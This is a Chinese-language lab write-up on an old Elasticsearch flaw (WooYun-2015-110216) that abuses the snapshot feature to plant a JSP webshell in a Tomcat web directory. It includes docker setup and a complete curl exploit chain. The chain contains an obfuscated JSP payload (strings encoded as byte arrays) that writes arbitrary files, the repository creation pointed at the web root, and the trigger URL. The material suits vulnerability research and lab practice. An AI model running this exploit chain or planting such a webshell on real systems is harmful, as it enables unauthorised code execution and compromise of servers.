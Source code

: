 # Elasticsearch写入webshell漏洞（WooYun-2015-110216）

参考文章： http://cb.drops.wiki/bugs/wooyun-2015-0110216.html

## 原理

ElasticSearch具有备份数据的功能，用户可以传入一个路径，让其将数据备份到该路径下，且文件名和后缀都可控。

所以，如果同文件系统下还跑着其他服务，如Tomcat、PHP等，我们可以利用ElasticSearch的备份功能写入一个webshell。

和CVE-2015-5531类似，该漏洞和备份仓库有关。在elasticsearch1.5.1以后，其将备份仓库的根路径限制在配置文件的配置项`path.repo`中，而且如果管理员不配置该选项，则默认不能使用该功能。即使管理员配置了该选项，web路径如果不在该目录下，也无法写入webshell。所以该漏洞影响的ElasticSearch版本是1.5.x以前。

## 测试环境

编译与启动测试环境：

```
docker-compose build
docker-compose up -d
```

简单介绍一下本测试环境。本测试环境同时运行了Tomcat和ElasticSearch，Tomcat目录在`/usr/local/tomcat`，web目录是`/usr/local/tomcat/webapps`；ElasticSearch目录在`/usr/share/elasticsearch`。

我们的目标就是利用ElasticSearch，在`/usr/local/tomcat/webapps`目录下写入我们的webshell。

## 测试流程

首先创建一个恶意索引文档：

```
curl -XPOST http://127.0.0.1:9200/yz.jsp/yz.jsp/1 -d'
{"<%new java.io.RandomAccessFile(application.getRealPath(new String(new byte[]{47,116,101,115,116,46,106,115,112})),new String(new byte[]{114,119})).write(request.getParameter(new String(new byte[]{102})).getBytes());%>":"test"}
'
```

再创建一个恶意的存储库，其中`location`的值即为我要写入的路径。

> 园长：这个Repositories的路径比较有意思，因为他可以写到可以访问到的任意地方，并且如果这个路径不存在的话会自动创建。那也就是说你可以通过文件访问协议创建任意的文件夹。这里我把这个路径指向到了tomcat的web部署目录，因为只要在这个文件夹创建目录Tomcat就会自动创建一个新的应用(文件名为wwwroot的话创建出来的应用名称就是wwwroot了)。

```
curl -XPUT 'http://127.0.0.1:9200/_snapshot/yz.jsp' -d '{
     "type": "fs",
     "settings": {
          "location": "/usr/local/tomcat/webapps/wwwroot/",
          "compress": false
     }
}'
```

存储库验证并创建:

```
curl -XPUT "http://127.0.0.1:9200/_snapshot/yz.jsp/yz.jsp" -d '{
     "indices": "yz.jsp",
     "ignore_unavailable": "true",
     "include_global_state": false
}'
```

完成！

访问`http://127.0.0.1:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp`，这就是我们写入的webshell。

该shell的作用是向wwwroot下的test.jsp文件中写入任意字符串，如：`http://127.0.0.1:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp?f=success`，我们再访问/wwwroot/test.jsp就能看到success了：

![](1.png)